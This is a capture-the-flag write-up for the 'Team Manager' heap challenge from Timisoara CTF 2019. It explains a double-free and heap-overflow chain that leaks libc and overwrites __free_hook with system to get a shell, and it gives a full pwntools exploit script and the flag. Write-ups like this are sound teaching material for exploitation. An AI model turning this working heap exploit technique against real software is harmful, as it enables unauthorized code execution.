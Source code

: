 ```yaml
---
title: "Team Manager [300]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation 

> I found the team manager service used for Timisoara CTF. Do you think it is secure?  
nc 89.38.208.144 11114

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/Timisoara%20CTF%202019%20Qualification%20Round/Binary%20Exploitation/Team%20Manager%20%5B300%5D){: .btn .btn--primary}


## Write-up
Running the binary instantly shows this is a standard heap challenge:
```
Welcome to the Timctf Team Manager
1: Add player
2: Remove player
3: Edit player
4: View player
5: View team
0: Exit
```

After analyzing the binary using Ghidra, a few observations can be made:
* Chunks on the heap can be freed multiple times without checks. There is a double free() vulnerability, which leaks an address pointing to the heap.
* Input is vulnerable to a heap overflow. By overflowing the "comments" section for one chunk, we can overwrite addresses on the following chunk.

The exploit follows the following order:

1. **Leak heap address**  
Leak the heap address using the double free() vulnerability. The address is stored in the "reversing and exploitation" and "crypto" areas in the heap. Viewing the team outputs the leaked heap address.

2. **Leak printf address**  
Using the heap overflow, overwrite the pointer to the "comments" section in the second chunk with the address of `printf` in the `GLOBAL OFFSET TABLE (GOT)`.Viewing the second player outputs the leaked `printf` address.

3. **Calculate libc base**  
Standard ret2libc procedure. Libc base can be calculated using `printf - printf_offset`, where `printf` is the leaked address and `printf_offset` is the address of `printf` in libc. With libc base value, the address of `__free_hook` and `system` can be calculated using `libc_base + system_offset` and `libc_base + __free_hook_offset` respectively.

4. **Overwrite __FREE_HOOK pointer with system**  
Overwrite the pointer to the "comments" section in the second chunk with the address of `__free_hook`. This makes the pointer point to the `__free_hook` instead. `__free_hook` can then be overwritten with the address of `system` by editing the "comments" of the second chunk. Calling free() now calls system() instead.

5. **Write /bin/sh into heap address**
Write the string `/bin/sh\x00` (*0x0068732f6e69622f* in hex) into the leaked heap address. The argument for free() is stored in this address when free() is called. When calling free() on first chunk, system(/bin/sh) is called instead, which executes a shell.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./timctf_manager",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11114,
}

def add(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "1")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def remove(pid):
	sla("0: Exit", "2")
	sla("Enter player id (1-4) ", str(pid))

def edit(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "3")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def viewplayer(pid):
	sla("0: Exit", "4")
	sla("Enter player id (1-4) ", str(pid))

def viewteam():
	sla("0: Exit", "5")

def tohex(val, nbits):
  return hex((val + (1 << nbits)) % (1 << nbits))

def exploit(p):
	print_menu = 0x00400827
	printf_got = elf.got['printf']
	data  = elf.get_section_by_name(".data").header.sh_addr

	add(1, "", 1, 2, 3, 4, "")
	add(2, "", 1, 2, 3, 4, "")
	remove(1)
	remove(1)
	viewteam()

	ru('reversing and exploitation: ')
	lo = int(p.recvline().strip())
	lo = str(tohex(lo, 32))[2:]
	ru("crypto: ")
	hi = str(hex(int(p.recvline().strip())))
	leak = int(hi + lo, 16)

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(printf_got)

	edit(1, "", 1, 1, 1, 1, payload)
	viewplayer(2)
	ru("Extra note/comment: ")

	printf = u64(r(8))
	base = printf - libc.symbols['printf']
	free_hook = base + libc.symbols['__free_hook']
	system = base + libc.symbols['system']
	
	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(free_hook)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(system))

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(leak)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(0x0068732f6e69622f))
	remove(1)
	
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{Heap_overfl0ws_are_really_B4D}